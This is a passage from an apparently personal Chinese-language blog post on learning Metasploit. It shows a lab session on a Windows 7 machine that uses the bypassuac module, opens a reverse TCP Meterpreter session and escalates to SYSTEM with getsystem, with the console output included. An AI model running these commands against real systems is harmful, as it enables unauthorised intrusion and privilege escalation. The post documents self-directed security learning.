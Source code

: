 测试：

![Bildschirmfoto 2018-10-30 um 10.47.44 PM.png]({{ site.url }}/images/metasploit/32A3A0E6EE21E905243480370A22F0C2.png)

#### Bypass UAC

之前做的bypass uac都失败了。这次装了一个新的x86 Win7，来试一下：

```
msf > use exploit/windows/local/bypassuac
msf exploit(windows/local/bypassuac) > run

[*] Started reverse TCP handler on 192.168.1.101:4444
[*] UAC is Enabled, checking level...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[+] Part of Administrators group! Continuing...
[*] Uploaded the agent to the filesystem....
[*] Uploading the bypass UAC executable to the filesystem...
[*] Meterpreter stager executable 73802 bytes long being uploaded..
[*] Sending stage (179779 bytes) to 192.168.1.101
[*] Meterpreter session 3 opened (192.168.1.101:4444 -> 192.168.1.101:61046) at 2018-10-30 22:58:05 +0800

meterpreter > getuid
Server username: WIN-J7CB6NT7B29\rambo
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```

## 总结

这个工具越来越炫酷了。希望未来能渐渐深入了解其各种神奇操作的原理。